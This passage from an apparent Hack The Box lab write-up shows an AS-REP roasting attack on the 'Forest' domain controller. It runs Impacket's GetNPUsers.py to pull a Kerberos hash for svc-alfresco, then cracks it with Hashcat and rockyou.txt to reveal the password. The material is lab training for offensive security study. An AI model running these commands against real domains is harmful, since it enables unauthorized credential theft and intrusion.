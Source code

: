 ```bash
/usr/share/doc/python3-impacket/examples/GetNPUsers.py -dc-ip 10.10.10.161 htb.local/ -no-pass -usersfile domusers.txt
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:c3a6d1a4684e2ceea425de0982e36be2$70f4b4147292e0ba12be0ad377993dd65b82dc93c30bfd9ada3d5d112357d7f0d92953019f03afd3bf1472b3a38105bd9f082560432c53a3ca4ef5b81a1d749de397ea0f5345d830fc0d59c4bd379bc7eb8e00d8c3ed1b571aaa60d98c3de3764db588e0b0ba8c98dd180fbd7be01319f5a7f0f1ab1057a6c9d02bd1cb981d2bd885b50b75b157fc6b39b45bf5243b305c9ed61a2dea95ff5f0136ff218208556eccffdda0b0263bf076aaef2d45c46764521d5b00cd62089fa9fc5545e8a7e8aafe7673e9b5853ec138217b67df89562c68bf20f55a434c02b9962ae41a939bf738b5f219db
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
```

We can see a hash for the user **svc-alfresco** which can be cracked using Hashcat.

```bash
hashcat -m 18200 svc-alfresco_asproast.hash /usr/share/wordlists/rockyou.txt
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344386
* Bytes.....: 139921515
* Keyspace..: 14344386

$krb5asrep$23$svc-alfresco@HTB.LOCAL:aed07bb35969f887301f309d9af57f04$98e9a1b121b215b94fe0c37be6e7229f4643ff5aba17093c2efa03a21d5a157977ed41589fd0081c2015eeef374458479210163ff80bef86b8e15dcffaad9f8dc7a1bfb5bf626da3a119517ede3110df286e00e9915015249d206dc2f1db6387b7d386b5c4bb9d4d9403305da2af1f6c103306534646e1437375eae1ac1c98336f21c14d1da7fb44fa604e11c5ff092622aa203cf51eb9cb3c0344418e692eeaf5ca0f2ee7524ce2221c30ed5ca62a04b3b05f05e2d98bdf2537a0ee68570b325be49aec1e03b10c0383599baa8866ec3e92cd92ebe370ea654ccd3a789a3c9c7adeaeac6415:s3rvice
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:aed07bb35969f8...ac6415
Time.Started.....: Sun Sep 17 17:07:07 2023 (4 secs)
Time.Estimated...: Sun Sep 17 17:07:11 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1013.3 kH/s (0.44ms) @ Accel:256 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4085760/14344386 (28.48%)
Rejected.........: 0/4085760 (0.00%)
Restore.Point....: 4084736/14344386 (28.48%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: s456838 -> s3r3nity1
Hardware.Mon.#1..: Util: 38%
```
